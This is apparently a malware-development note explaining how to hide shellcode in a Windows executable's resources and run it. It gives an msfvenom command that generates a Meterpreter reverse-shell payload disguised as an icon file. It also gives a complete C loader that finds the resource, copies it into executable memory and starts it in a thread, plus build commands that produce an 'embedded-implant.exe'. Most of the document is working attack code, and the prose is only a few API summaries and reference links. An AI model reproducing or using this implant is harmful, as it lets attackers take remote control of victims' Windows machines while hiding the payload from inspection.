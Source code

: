 # FindResource

Determines the location of a resource with the specified type and name in the specified module.

(LoadResource) Retrieves a handle that can be used to obtain a pointer to the first byte of the specified resource in memory.

(SizeofResource)  Retrieves the size, in bytes, of the specified resource.

```
$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<IP> lport=<IP> exitfunc=thread -f raw -o shellcode.ico
```

```c
#define SC_ICON 2583
SC_ICON RCDATA "shellcode.ico"
```

```c
#include <windows.h>

#define SC_ICON 2583
int main() {
    // Find shellcode data
    HRSRC handle_resource = FindResource(NULL, MAKEINTRESOURCE(SC_ICON), RT_RCDATA);

    // Load shellcode
    HGLOBAL handle_global = LoadResource(NULL, handle_resource);

    // Get pointer to shellcode
    LPVOID memory_pointer = LockResource(handle_global);

    // Length of shellcode
    DWORD length = SizeofResource(NULL, handle_resource);

    // Allocate the memory
    LPVOID execute_memory = VirtualAlloc(NULL, length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    RtlMoveMemory(execute_memory, memory_pointer, length);

    DWORD old_protection = 0;
    BOOL returned_virtual_protection = VirtualProtect(execute_memory, length, PAGE_EXECUTE_READ, &old_protection);

    if(returned_virtual_protection != NULL) {
        HANDLE thread_handle = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)execute_memory, NULL, NULL, NULL);

        WaitForSingleObject(thread_handle, INFINITE);
    }
}
```

```
$ x86_64-w64-mingw32-windres resource.rc resource.o

$ x86_64-w64-mingw32-gcc -o embedded-implant.exe resource.o implant.c
```

```
C:\> rc resource.rc

C:\> cvtres /machine:x64 /out:resource.o resource.res

C:\> cl.exe /nologo /0x /W0 /GS- /DNDEBUG /Tc:implant.c /link /out:embedded-implant.exe /subsystem:console /machine:x64 resource.o
```

---
## References

- [[03 - Malware Development/Global Helpers/Programs/Compilers/Windows/C|Compilers: C]]

- [Red Team Notes: Loading and Executing Shellcode From PE Resources](https://www.ired.team/offensive-security/code-injection-process-injection/loading-and-executing-shellcode-from-portable-executable-resources)

### MalAPI

- [MalAPI: FindResourceA](https://malapi.io/winapi/FindResourceA)

- [MalAPI: FindResourceExA](https://malapi.io/winapi/FindResourceExA)

- [MalAPI: SizeOfResource](https://malapi.io/winapi/SizeOfResource)

- [MalAPI: LockResource](https://malapi.io/winapi/LockResource)

### Tenouk

- [Tenouk: Processes and Threads - Synchronization - Part 1](https://www.tenouk.com/ModuleV.html)